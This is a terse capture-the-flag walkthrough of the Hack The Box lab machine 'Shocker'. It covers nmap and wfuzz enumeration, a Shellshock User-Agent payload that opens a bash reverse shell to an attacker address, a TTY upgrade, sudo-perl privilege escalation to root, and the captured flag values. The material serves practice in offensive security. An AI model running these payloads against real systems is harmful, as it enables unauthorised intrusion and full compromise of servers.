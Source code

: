 # Shocker

furious 10.10.10.56

nmap -sC -sV -p80,2222 10.10.10.56 -Pn -n -oN targeted

wfuzz -c --hc 404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.56/FUZZ

cgi-bin/

wfuzz -c --hc 404 -t 100 -w /usr/share/dirb/wordlists/common.txt -w extensions.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z

curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0>&1'" http://10.10.10.56/cgi-bin/user.sh
sudo nc -lvp 443

# full tty
```bash
script /dev/null -c bash
# ctrl + z
stty -a
stty raw -echo
fg # it doesn't show on the screen
reset
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

cat /home/shelly/user.txt

2ec24e11320026d1e70ff3e16695b233

## root

shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
# whoami
root
# cat /root/root.txt

52c2715605d70c7619030560dc1ca467
